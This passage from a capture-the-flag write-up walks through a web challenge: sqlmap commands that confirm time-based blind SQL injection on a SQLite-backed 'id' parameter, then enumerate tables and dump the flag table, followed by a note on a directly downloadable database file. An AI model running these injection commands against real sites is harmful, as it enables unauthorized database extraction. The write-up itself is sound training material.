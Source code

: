 ```
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" \
  --batch --level=3 --risk=2
```

When I came back, sqlmap had confirmed my suspicion. The parameter `id` was indeed vulnerable:

<img width="983" height="401" alt="image" src="https://github.com/user-attachments/assets/7d40c8d6-6aa4-4417-a62f-811c73192081" />

No visible output, but controllable query delays meant **time-based blind SQLi** on **SQLite**.

Normally the next step would be to enumerate all databases and tables:

```
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" --batch --dbs
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" --batch -D SQLite_masterdb --tables
```

From that list, one table stood out immediately:

<img width="369" height="159" alt="image" src="https://github.com/user-attachments/assets/c80cc498-6fb6-448f-9498-2b6911512fff" />

Then, Enumerate columns of `secret_flag`

```
sqlmap -u "https://nodeleaf.ctf.n3xtl3v3l.site/?id=101" \
  --batch --dbms=SQLite --technique=T --time-sec=2 --threads=10 \
  -D SQLite_masterdb -T secret_flag --dump
```

- `--dbms=SQLite` → lock sqlmap onto the right backend.
- `--technique=T` → force time-based blind injection.
- `--time-sec=2` → 2-second delay probes (keeps it reliable but not painfully slow).
- `--threads=10` → speed up enumeration (parallel requests).

Once I confirmed the database contained a suspicious table named secret_flag, I went straight for it. Instead of bothering with the `users` or `sqlite_sequence tables`, I told sqlmap to dump everything from `secret_flag`:

#### Flag

<img width="396" height="149" alt="image" src="https://github.com/user-attachments/assets/8be695c7-7915-4b14-860c-9de65c45299a" />

```
n3xt{t1m3_b4s3d_bl1nd_sqli_is_fun}
```

After solving it with blind SQL injection, I later discovered there was actually a much easier way. By enumerating the subdomain files, the entire SQLite database could be downloaded directly from:

```
https://nodeleaf.ctf.n3xtl3v3l.site/users.db
```

Opening this file locally with **sqlite3** `users.db` would instantly reveal the **secret_flag** table and the flag, skipping the time-based extraction entirely.

### Command Runner 
